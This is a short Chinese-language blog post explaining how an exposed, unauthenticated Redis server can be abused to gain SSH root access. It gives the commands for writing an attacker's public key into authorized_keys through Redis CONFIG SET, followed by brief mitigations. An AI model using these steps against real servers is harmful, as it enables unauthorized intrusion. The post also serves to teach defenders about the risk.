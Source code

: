 ```yaml
---
layout:     post
title:      利用redis入侵主机
# subtitle:   java web 请求拦截的方法
date:       2018-07-06
author:     BY wyl53
# header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
  - redis
	- 主机安全
---
```


# 前言
  假如redis服务对外网开放了，并且没有做安全防护。那么心怀不轨的人就可以通过redis来入侵主机。具体步骤如下：

1. 生成密钥对。
   ```
   ssh-keygen -t rsa
   ```
2. 连接redis服务器，把公钥添加到redis里面。
   ```
   cat id_rsa.pub | redis-cli -h xxx.xx.xx.xx -p xxxx -x set key
   ```
3. 设置redis保存文件路径和文件名：
   ```
   config set dir ~/.ssh/g
   config set dbfilename authorized_keys
   save
   ```
4. 可以ssh登陆过去了。
   ```
   ssh root@xxx.xx.xx.xx -i id_rsa
   ```

# 防止方法
  1. 不对外网开放
  2. 设置连接认证密码
  3. 不要用root用户启动redis服务，给redis服务创建redis用户，并用redis用户起到redis服务。 